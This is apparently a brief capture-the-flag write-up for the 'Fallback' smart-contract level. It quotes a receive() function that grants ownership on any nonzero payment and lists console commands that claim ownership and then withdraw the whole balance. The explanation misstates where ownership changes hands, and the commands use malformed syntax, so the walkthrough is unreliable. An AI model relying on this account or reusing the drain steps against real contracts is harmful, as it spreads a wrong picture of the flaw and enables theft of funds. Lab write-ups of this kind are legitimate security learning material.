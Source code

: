# 0. Fallback

You will beat this level if:

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help:

-How to send ether when interacting with an ABI
-How to send ether outside of the ABI
-Converting to and from wei/ether units (see help() command)
-Fallback methods

For part 1, our address needs to claim ownership of the contract.
There is a fallback function that sets the owner to msg.sender if the conditions are met. 

``` 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

the contribute function checks if the contribution is less than 0.001 ether and if it's true, the msg.sender takes ownership of the contract. 

```
toWei("0.001")
~~~
returns the value of ether to wei, so any contribution less than the return value of '1000000000000000' will allow msg.sender to take ownership. 
```
contract.contribute({100})
contract.sendTransaction({100})
contract.withdraw()
```

once ownership of the contract is taken, we can access the withdraw() function to drain the contract. 



